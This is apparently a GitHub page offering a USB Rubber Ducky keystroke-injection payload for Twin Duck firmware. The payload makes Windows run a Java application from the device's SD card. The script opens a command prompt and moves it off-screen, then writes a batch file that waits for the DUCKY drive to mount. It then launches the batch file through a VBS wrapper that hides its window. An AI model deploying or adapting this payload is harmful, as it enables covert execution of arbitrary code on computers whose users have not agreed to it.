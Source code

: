 The following is another payload for running applications on Twin duck firmware from off your SD card automatically. This payload waits for the ducky drive to mount, then switches to the directory containing the Java payload, then launches the payload. I don't know how useful this will be, but it is here if you need it. This only runs on Windows systems, but should run on all current Windows thanks to some code written by googleknowsbest. Change "JavaApp" to the name of your application. 
```
REM Author: overwraith
REM Name: Java_Application.txt
REM Purpose: Run a java application off the ducky drive after it mounts.  
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 25
DELAY 3000
GUI R
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER

STRING for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)
ENTER
STRING if Exist %DUCKYdrive% (
ENTER
STRING goto :break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto :while1
ENTER
STRING :break
ENTER
REM Continue script.
STRING %DUCKYdrive%
ENTER
STRING cd Java_Application
ENTER
STRING Java JavaApp
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
STRING EXIT
ENTER
```

If you are not containing this script and the application within a folder on the ducky drive, then remove this line: 

```
...
STRING cd Java_Application
ENTER
...
```